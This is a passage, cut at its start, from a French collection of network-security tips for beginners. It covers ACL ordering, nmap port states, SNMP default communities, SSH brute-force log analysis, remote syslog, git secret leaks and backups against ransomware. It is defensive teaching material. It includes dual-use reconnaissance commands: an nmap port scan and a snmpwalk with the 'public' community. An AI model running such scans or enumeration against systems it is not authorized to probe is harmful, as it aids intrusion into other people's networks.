content: Les règles d'une ACL sont évaluées dans l'ordre et s'arrêtent au premier match. Un permit ip any any en tête rend toutes les règles suivantes inutiles, sans erreur ni alerte. Correction : règles précises d'abord, refus final explicite avec log (deny ip any any log), vérification des compteurs avec show access-lists.
description: Une règle trop large placée en tête neutralise le reste de l'ACL ; les compteurs de hits révèlent les règles jamais atteintes.
-->

<!-- snippet
id: netsec_nmap_etats_ports
type: tip
tech: network-security
level: beginner
importance: medium
format: knowledge
tags: nmap,pare-feu,diagnostic
title: Lire open, closed et filtered dans nmap
content: Lancer nmap -Pn -p 22,443 <HOST> et interpréter : open (un service répond), closed (réponse RST, rejet ou port sans service), filtered (aucune réponse ou ICMP unreachable, donc DROP ou REJECT par ICMP). Un port attendu en filtered et trouvé en closed indique un rejet explicite ou une règle différente de celle prévue.
description: La différence entre closed et filtered révèle si un pare-feu rejette ou ignore le trafic, donc la politique réellement appliquée.
-->

<!-- snippet
id: netsec_snmp_public_warning
type: warning
tech: network-security
level: beginner
importance: high
format: knowledge
tags: snmp,configuration,equipements
title: SNMP v2c avec la communauté public
content: Un équipement avec SNMP v1/v2c et la communauté public répond à snmpwalk -v2c -c public <SWITCH_IP> system depuis n'importe quel poste, et expose interfaces, table ARP et parfois la configuration. Correction : SNMPv3 avec authentification, ou au minimum restreindre les sources autorisées, puis tester avec le même snmpwalk.
description: Une communauté par défaut permet de lire la configuration réseau ; SNMPv3 et une liste de sources autorisées ferment cette porte.
-->

<!-- snippet
id: netsec_logs_echecs_ssh_par_ip
type: command
tech: network-security
level: beginner
importance: medium
format: knowledge
tags: logs,ssh,force-brute
title: Compter les échecs SSH par adresse source
context: Sur Debian ou Ubuntu, dans /var/log/auth.log
command: grep "Failed password" /var/log/auth.log | awk '{print $(NF-3)}' | sort | uniq -c | sort -rn | head
description: Classe les adresses par nombre d'échecs de connexion SSH ; une source avec des milliers d'échecs trahit une force brute en cours.
-->

<!-- snippet
id: netsec_logs_syslog_distant
type: tip
tech: network-security
level: beginner
importance: high
format: knowledge
tags: logs,rsyslog,traçabilité
title: Envoyer les logs vers une machine distincte
content: Ajouter dans /etc/rsyslog.d/ la ligne *.* @@<LOG_HOST>:514 (TCP) pour copier les journaux hors de la machine. Un attaquant qui efface /var/log/auth.log localement ne supprime pas la copie distante. Sans TLS, le flux est lisible sur le réseau : à chiffrer ensuite.
description: Une copie des journaux sur un autre hôte survit à l'effacement local qui suit une compromission.
-->

<!-- snippet
id: netsec_compte_partage_tracabilite
type: error
tech: network-security
level: beginner
importance: high
format: knowledge
tags: traçabilité,comptes,audit
title: Journal illisible : qui est l'administrateur à 02:14 ?
content: Symptôme : le journal indique que admin s'est connecté et a modifié une règle, sans moyen d'identifier la personne. Cause : compte partagé. Correction : un compte nommé par administrateur, droits ajustés par rôle, journaux centralisés, horloges synchronisées pour recouper plusieurs équipements.
description: Un compte partagé supprime la traçabilité ; des comptes nommés rendent chaque action rattachable à une personne.
-->

<!-- snippet
id: netsec_git_historique_config
type: command
tech: network-security
level: beginner
importance: medium
format: knowledge
tags: git,configuration,audit
title: Voir l'historique d'une configuration
command: git log -p --follow -- <FICHIER_CONFIG>
example: git log -p --follow -- configs/fw1.nft
description: Montre chaque modification de la configuration avec son diff, son auteur et son message ; sert à retrouver quand une règle est apparue.
-->

<!-- snippet
id: netsec_git_secret_historique
type: warning
tech: network-security
level: beginner
importance: high
format: knowledge
tags: git,secrets,gitleaks
title: Secret committé puis supprimé : il reste dans l'historique
content: Un mot de passe, une communauté SNMP ou une clé pré-partagée committés puis retirés avec git rm restent lisibles dans l'historique Git. Correction : renouveler le secret, scanner le dépôt avec gitleaks detect --source <REPO_PATH>, et filtrer les secrets avant chaque commit (la syntaxe varie selon la version de gitleaks).
description: Supprimer un fichier ne retire pas son contenu de l'historique ; seul le renouvellement du secret annule le risque.
-->

<!-- snippet
id: netsec_ha_nest_pas_sauvegarde
type: concept
tech: network-security
level: beginner
importance: high
format: knowledge
tags: sauvegarde,disponibilite,ransomware
title: Redondance et sauvegarde ne protègent pas des mêmes risques
content: Une réplique ou un cluster copie fidèlement ce qui arrive à la source, y compris la suppression ou le chiffrement par un ransomware. La redondance protège contre la panne matérielle, pas contre l'effacement. Il faut une copie hors ligne ou immuable, sur un compte distinct de l'administration courante, avec restauration testée.
description: La réplication propage la suppression et le chiffrement ; seule une copie isolée et testée survit à un ransomware.
-->

<!-- snippet
id: netsec_env_diff_preprod_prod
type: command
tech: network-security
level: beginner
importance: medium
format: knowledge
tags: environnements,configuration,derive
title: Comparer la configuration préprod et prod
command: diff -u <CONFIG_PREPROD> <CONFIG_PROD>
example: diff -u configs/preprod/fw.nft configs/prod/fw.nft
description: Fait apparaître les écarts entre environnements ; seules les variables (adresses, noms) doivent différer, toute autre ligne est une surprise à expliquer.
-->
